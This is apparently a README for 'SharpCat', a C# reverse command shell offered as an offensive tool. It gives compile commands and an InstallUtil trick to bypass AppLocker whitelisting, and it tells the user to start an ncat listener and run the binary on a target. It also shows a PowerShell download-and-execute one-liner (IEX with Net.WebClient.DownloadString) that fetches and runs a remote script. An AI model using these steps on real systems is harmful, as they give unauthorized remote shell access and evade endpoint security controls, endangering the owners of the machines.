 ```
  _________.__                        _________         __   
 /   _____/|  |__ _____ _____________ \_   ___ \_____ _/  |_ 
 \_____  \ |  |  \\__  \\_  __ \____ \/    \  \/\__  \\   __\
 /        \|   Y  \/ __ \|  | \/  |_> >     \____/ __ \|  |  
/_______  /|___|  (____  /__|  |   __/ \______  (____  /__|  
        \/      \/     \/      |__|           \/     \/      
                                                        v0.1
```

A Simple Reversed Command Shell which can be started using InstallUtil (Bypassing AppLocker) - by Cn33liz 2016

Compile:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /out:"C:\Utils\SharpCat.exe" /platform:anycpu "C:\Utils\SharpCat.cs"
```

To Bypass Applocker:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SharpCat.exe
```

### How to use it:

Setup a remote TCP Listener (for example ncat -lvp 443) https://nmap.org/ncat/

Change IP/Port as needed, then Compile and run the SharpCat Executable on your target (or use the above InstallUtil trick).

Within the Remote Command Shell you can run PowerShell commands as follow:
```
C:\>PowerShell "Get-Help Invoke-*"
```
Or
```
C:\>PowerShell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/trollsploit/Get-RickAstley.ps1'); Get-RickAstley" 
```
